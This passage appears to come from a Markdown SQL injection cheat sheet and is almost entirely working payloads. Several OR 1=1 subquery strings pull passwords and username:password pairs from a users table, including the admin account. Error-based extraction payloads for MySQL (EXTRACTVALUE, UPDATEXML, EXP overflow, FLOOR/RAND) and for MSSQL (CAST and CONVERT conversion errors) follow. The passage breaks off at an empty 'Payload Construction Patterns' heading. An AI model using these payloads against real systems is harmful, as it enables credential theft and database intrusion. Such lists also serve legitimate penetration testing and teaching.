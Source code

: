 #### Data Extraction Techniques
```sql
-- Extract all data (will cause error - too many columns)
' OR 1=1 IN (SELECT * FROM users) -- //

-- Extract single column
' OR 1=1 IN (SELECT password FROM users) -- //

-- Extract specific user data
' OR 1=1 IN (SELECT password FROM users WHERE username = 'admin') -- //

-- Extract with concatenation (MySQL)
' OR 1=1 IN (SELECT CONCAT(username,':',password) FROM users WHERE username = 'admin') -- //

-- Extract with concatenation (MSSQL)
' OR 1=1 IN (SELECT username + ':' + password FROM users WHERE username = 'admin') -- //
```

---

### Error-Based Extraction Techniques

#### MySQL Error Functions
```sql
-- Using EXTRACTVALUE (MySQL 5.1+)
' AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT @@version), 0x7e)) -- //

-- Using UPDATEXML (MySQL 5.1+)
' AND UPDATEXML(1, CONCAT(0x7e, (SELECT @@version), 0x7e), 1) -- //

-- Using EXP overflow (MySQL 5.5+)
' AND EXP(~(SELECT * FROM (SELECT @@version)x)) -- //

-- Using FLOOR error
' AND (SELECT COUNT(*) FROM information_schema.tables GROUP BY CONCAT(@@version, FLOOR(RAND(0)*2))) -- //
```

#### MSSQL Error Functions
```sql
-- Using CAST conversion error
' AND 1=CAST((SELECT @@version) AS INT) -- //

-- Using CONVERT error
' AND 1=CONVERT(INT, (SELECT @@version)) -- //

-- Using arithmetic error
' AND 1/(SELECT COUNT(*) FROM sys.databases WHERE name='master')=1 -- //
```

---

### Payload Construction Patterns
